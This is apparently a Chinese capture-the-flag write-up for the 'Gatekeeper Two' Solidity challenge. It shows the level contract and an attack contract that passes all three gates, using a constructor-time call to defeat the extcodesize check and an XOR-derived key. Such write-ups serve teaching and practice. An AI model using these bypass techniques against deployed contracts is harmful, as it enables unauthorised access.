 # Gatekeeper Two

> 这个守门人带来了一些新的挑战, 同样的需要注册为参赛者来完成这一关

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 攻击思路

- 对于gateOne，使用合约进行调用。
- 对于gateTwo，在合约在执行构造函数constructor时，此时合约的 size == 0；
- 对于gateThree，只需要进行一次按位运算即可算出_gateKey。

## 攻击代码

```solidity
contract Attack {
    GatekeeperTwo constant private target = GatekeeperTwo(0x700D90206161DB92fBEe91cd4aF7B72371089158);

    function getKey() public view returns (bytes8){
        uint64 _gateKey = ((uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        return bytes8(_gateKey);
    }

    function attack() public {
        bytes8 _gateKey = getKey();
        target.enter(_gateKey);
    }

    constructor() public {
        attack();
    }
}
```

